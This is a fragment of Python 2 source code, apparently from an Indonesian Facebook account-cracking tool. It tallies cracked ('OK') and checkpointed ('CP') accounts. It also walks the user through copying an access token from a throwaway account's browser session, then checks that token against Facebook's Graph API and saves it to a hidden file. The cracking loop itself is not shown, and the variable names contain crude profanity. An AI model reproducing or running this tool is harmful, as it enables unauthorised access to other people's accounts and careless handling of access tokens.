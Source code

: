 \033[1;92m(~) Fb      : https://www.facebook.com/pejuh.sangean

\033[1;92m-------------------------------------------------

'''

lo_ngentod = '1714009362122228'

# crack selesai

def hasil(ok,cp):

    if len(ok) != 0 or len(cp) != 0:

        print '\n\n %s[%s#%s] crack selesai...'%(N,K,N)

        print '\n\n [%s+%s] total OK : %s%s%s'%(O,N,H,str(len(ok)),N)

        print ' [%s+%s] total CP : %s%s%s'%(O,N,K,str(len(cp)),N);exit()

    else:

        print '\n\n [%s!%s] opshh kamu tidak mendapatkan hasil :('%(M,N);exit()

#masuk token

def yayanxd():

    os.system('clear')

    print (' %s*%s tools ini menggunakan login token facebook.\n %s*%s apakah kamu sudah tau cara mendapatkan token facebook?\n %s*%s ketik %sopen%s untuk mendapatkan token facebook.'%(O,N,O,N,O,N,H,N))

    kontol = raw_input('\n %s[%s?%s] Token :%s '%(N,M,N,H))

    if kontol in ('open', 'Open', 'OPEN'):

        print '\n%s *%s note! usahakan akun tumbal login di google chrome terlebih dahulu'%(B,N);time.sleep(2)

        print '%s *%s jangan lupa! url ubah ke %shttps://m.facebook.com'%(B,N,H);time.sleep(2)

        print '%s *%s setelah di alihkan ke google chrome. klik %stitik tiga'%(B,N,H);time.sleep(2)

        print '%s *%s lalu klik %sCari di Halaman%s Tinggal ketik %sEAAA%s Lalu salin.'%(B,N,H,N,H,N);time.sleep(2)

        raw_input(' %s*%s tekan enter '%(O,N))

        os.system('xdg-open https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_')

        yayanxd()

    try:

        nama = requests.get('https://graph.facebook.com/me?access_token=%s'%(kontol)).json()['name']

        print '\n\n %s*%s selamat datang %s%s%s'%(O,N,K,nama,N);time.sleep(2)

        print ' %s*%s mohon untuk menggunakan sc ini sewajarnya, kami tidak bertanggung jawab jika sc ini disalah gunakan...'%(O,N);time.sleep(2)

        open('.memek.txt', 'w').write(kontol)
